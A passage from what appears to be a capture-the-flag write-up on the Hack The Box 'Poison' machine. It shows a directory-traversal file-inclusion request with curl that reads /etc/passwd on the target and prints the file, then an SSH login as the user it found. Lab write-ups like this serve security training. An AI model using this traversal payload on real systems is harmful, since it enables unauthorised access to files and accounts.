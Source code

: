 Okay so we can see here that include() is indeed being used and we also see the include path, so we'll need to go up five directories first to try to escape to the root dir.

```
root@kali:~/htb/poison# curl http://10.10.10.84/browse.php?file=../../../../../etc/passwd
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

And we have a username of charix.

Let's try out ssh with our username and password.

```
root@kali:~/htb/poison# ssh charix@10.10.10.84
Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier
```